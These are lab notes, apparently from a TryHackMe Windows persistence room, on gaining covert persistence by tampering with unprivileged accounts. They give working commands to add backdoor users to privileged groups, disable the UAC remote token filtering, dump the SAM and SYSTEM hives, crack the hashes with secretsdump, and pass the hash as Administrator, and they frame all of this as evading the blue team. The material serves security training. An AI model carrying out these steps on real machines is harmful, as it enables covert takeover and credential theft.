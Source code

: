 Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.

## **Tampering With Unprivileged Accounts**
### Assign Group Memberships
For this part of the task, we will assume you have dumped the password hashes of the victim machine and successfully cracked the passwords for the unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the **Administrators** group. We can easily achieve this with the following command:
```shell-session
C:\> net localgroup administrators thmuser0 /add
```

This will allow you to access the server by using RDP, WinRM or any other remote administration service available. If this looks too suspicious, you can use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This would allow us to copy the content of the SAM and SYSTEM registry hives, which we can then use to recover the password hashes for all the users, enabling us to escalate to any administrative account trivially.

To do so, we begin by adding the account to the Backup Operators group:
```shell-session
C:\> net localgroup "Backup Operators" thmuser1 /add
```

Since this is an unprivileged account, it cannot RDP or WinRM back to the machine unless we add it to the **Remote Desktop Users** (RDP) or **Remote Management Users** (WinRM) groups. We'll use WinRM for this task:
```shell-session
C:\> net localgroup "Remote Management Users" thmuser1 /add
```

We'll assume we have already dumped the credentials on the server and have thmuser1's password. Let's connect via WinRM using its credentials:
		![[Pasted image 20240909183441.png]]

```shell-session
user@AttackBox$ evil-winrm -i 10.10.6.17 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

If you tried to connect right now from your attacker machine, you'd be surprised to see that even if you are on the Backups Operators group, you wouldn't be able to access all files as expected. A quick check on our assigned groups would indicate that we are a part of Backup Operators, but the group is disabled: 
- This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:
```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Once all of this has been set up, we are ready to use our backdoor user:

```shell-session
user@AttackBox$ evil-winrm -i 10.10.6.17 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```


**SAM & SYSTEM reg files**
We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:
```shell-session
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:
```shell-session
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
```shell-session
user@AttackBox$ evil-winrm -i 10.10.6.17 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

### Special Privileges and Security Descriptors
